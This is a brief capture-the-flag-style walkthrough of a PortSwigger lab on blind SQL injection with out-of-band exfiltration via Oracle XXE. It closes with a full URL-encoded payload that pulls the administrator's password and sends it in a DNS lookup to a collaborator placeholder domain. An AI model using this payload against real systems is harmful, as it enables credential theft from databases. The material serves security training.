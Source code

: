 ```yaml
---
title: Blind SQL injection with out-of-band data exfiltration
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration/">
14. Blind SQL injection with out-of-band data exfiltration</a>

This web application handles SQL queries asynchronously, making it difficult to
detect the results of a SQL injection attack. This includes trying to determine
the type of SQL database in use. To solve this, we eventually use the Oracle XXE
vulnerability to trigger a DNS lookup. This lab requires the use of
PortSwigger's Burp Suite Professional distribution, however, in a real
engagement you could always create your own DNS server to capture the DNS
lookup. We append the password of the administrator as a subdomain to our domain
that we're using to capture DNS requests, allowing us to exfil the password.
Here's the payload:

```
TrackingId=dtBu3jq1O29SviC6'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```
